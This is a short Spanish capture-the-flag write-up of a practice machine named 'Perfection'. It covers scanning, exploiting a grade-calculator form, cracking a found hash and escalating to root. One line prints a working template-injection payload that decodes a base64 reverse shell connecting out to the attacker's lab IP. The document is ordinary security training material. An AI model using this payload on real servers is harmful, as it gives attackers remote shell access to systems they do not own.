








---
tags:
  - Perfection
aliases: []
---
# Perfection
## Etapa de escaneo
Se realizo un escaneo básico al sistema para detectar rápidamente lo necesario

Observamos que tenemos el puerto 80 y 22 abiertos, intuimos que la maquina sera entonces todo desde web.

---
## Etapa de exploración web
Tras haber investigado un poco, hay una sección con varios inputs que permiten enviar datos al servidor con un pequeño backend que realiza cálculos de calificaciones ponderadas.

con burpsuite podemos capturar los datos enviados para ver su comportamiento, de aquí decidimos investigar más por Internet, logrando encontrar unos métodos de entrada de datos para la tabla en cuestión: ![[Research#^d1dd5b]]
lo que se puede intentar hacer un ping desde el servidor a una maquina receptora, por lo que decidimos hacerlo con: ![[Research#^a79f05]]

Una ves que comprobamos que hay ping, podemos proceder a realizar una conexión remota.

---
## Etapa de reverShell
Debido a que no podemos pedirle al sistema de forma "directa" que nos de una conexión remota desde el input, deberemos codearlo a "url" para que pueda ingresar sin problemas y seguidamente decodearse en el sistema, a continuación muestro el codeo de mi revershell con la herramienta [[Maquinas/Perfection/Research|hURL]]:

Una ves que tengamos todo listo, solo preparamos el ataque completo para agregarlo al campo en burpsuite:

~~~
<% system("echo c2ggLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTQuMTgvMTIzNCAwPiYx | base64 -d | bash"); %>
~~~

y listo, estamos dentro.

---
## Etapa de exploración del sistema
Tras haber penetrado al sistema de manera superficial, ahora deberemos buscar la forma de escalar privilegios, pero antes, notamos algunas cosillas dentro de los directorios algo interesantes, como hash's:

Esto claramente nos da indicios de poder acceder al sistema con un usuario, por lo que deberemos deshashear el hash.

---
## Etapa de deshasheo
tenemos el hash, pero ahora que?
deberemos buscar la forma de decodear ese hash, y la forma más sencilla sera con hashcat, crearemos un archivo el cual contendra el hash encontrado en el sistema:

y con este archivo, usar hashcat:

con esto obtendremos la contraseña en texto plano y lograr acceder al sistema con un usuario.

---
## Etapa de escalada de privilegios
Revisamos si podemos acceder con la contraseña del usuario normal al usuario privilegiado, usando sudo -l

y listo, tenemos acceso al usuario root.